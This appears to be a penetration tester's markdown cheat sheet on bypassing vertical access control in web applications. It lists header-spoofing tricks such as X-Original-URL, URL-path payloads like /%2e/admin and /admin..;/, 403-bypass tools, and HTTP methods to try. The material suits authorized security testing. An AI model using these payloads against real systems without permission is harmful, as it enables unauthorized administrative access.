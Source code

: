 # Vertical Access Control

## Acces Admin	
```
Defautlt Credentials
SqlInjection
Hidden Admin Panel
Increse own rank
```
## Tools
```
bypass-403
403-bypass
B1pass3r
```	
## Header
```
X-Original-URL: PATH
X-Rewrite-URL: PATH
For Parameters in URL change to Post add Parameters in Post Body if possible
```
### Different Header names
```
X-Original-URL
X-Forward-For
X-Forwarded-For-Original
X-Forwarded-Host
X-Forwarded-Scheme
Referer
Request-Uri
Base-Url
Client-IP
Http-Url
Proxy-Host
Proxy-Url
Real-Ip
Redirect
X-Client-IP
X-Custom-IP-Authorization
X-Forwarded-Server
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Originating-IP
X-Remote-IP
X-Rewrite-Url
X-True-IP
```
## Url Rewrite:
Miss match in url path e.g. 
´´´
/admin vs /adMiN
´´´
In Spring arbitray field extension might be possible:
´´´
/admin.anything
´´´
Different Combination and Payloads
´´´
/admin /deleteUser to /admin/deletuser or /admin/deletuser/
/%2e/admin	
/admin/.
/admin//
/admin/..
/;/admin
/;./admin/
/;//admin/
/admin..;/
´´´
## Different HTTP METHODs
´´´
POST
OPTIONS
PUT
HEAD
GET 
DELETE
PATCH
TRACE
´´´

